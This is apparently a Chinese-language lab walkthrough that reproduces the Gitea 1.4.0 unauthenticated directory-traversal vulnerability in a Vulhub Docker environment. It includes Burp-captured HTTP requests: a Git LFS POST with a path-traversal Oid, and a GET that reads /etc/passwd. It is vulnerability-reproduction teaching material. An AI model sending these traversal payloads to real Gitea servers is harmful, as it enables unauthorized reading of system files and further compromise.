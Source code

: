 # Gitea 1.4.0 目录穿越导致命令执行漏洞

## Vulnhub官方复现教程

https://vulhub.org/#/environments/gitea/1.4-rce/

## 漏洞原理

其1.4.0版本中有一处逻辑错误，导致未授权用户可以穿越目录，读写任意文件，最终导致执行任意命令。

## 参考链接：

https://security.szurek.pl/gitea-1-4-0-unauthenticated-rce.html

https://www.leavesongs.com/PENETRATION/gitea-remote-command-execution.html

## 复现漏洞

启动环境

https://blog.csdn.net/JiangBuLiu/article/details/93853056

进入路径为

```shell
cd /root/vulhub/gitea/1.4-rce
```

搭建及运行漏洞环境：

```shell
docker-compose build && docker-compose up -d
```

用时：2分钟

环境启动后，访问http://you-ip:3000，将进入安装页面，填写管理员账号密码，并修改网站URL，其他的用默认配置安装即可。（不要修改端口号）

第二次打开已经是安装好的了

![image](images/img1.png)

安装完成后，新建一个用户，然后创建一个公开的仓库，随便添加点文件进去（比如使用选定的文件和模板初始化仓库）：

![image](images/img2.png)

![image](images/img3.png)

此时需要执行一次docker-compose restart重启gitea服务。（原因详见第二个参考链接）

## 漏洞复现

### 设置浏览器的代理端口为3000

![image](images/img4.png)

### Burp

设置端口拦截

![image](images/img5.png)

由于漏洞链整体利用比较复杂，我们只复现文件读取部分，剩余利用方法详见第二个参考链接。

打开gitea，找到刚才创建的公开项目，如vulhub/repo或者JiangBuLiu/JiangBuLiu发送如下数据包，添加一个Git LFS对象：

```html
POST /JiangBuLiu/JiangBuLiu.git/info/lfs/objects HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 151

{
    "Oid": "....../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```

然后，访问

```html
http://your-ip:3000/JiangBuLiu/JiangBuLiu.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth
```

```html
GET /JiangBuLiu/JiangBuLiu.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth HTTP/1.1
Host: 192.168.236.138:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

即可看到/etc/passwd已被成功读取：

![image](images/img6.png)
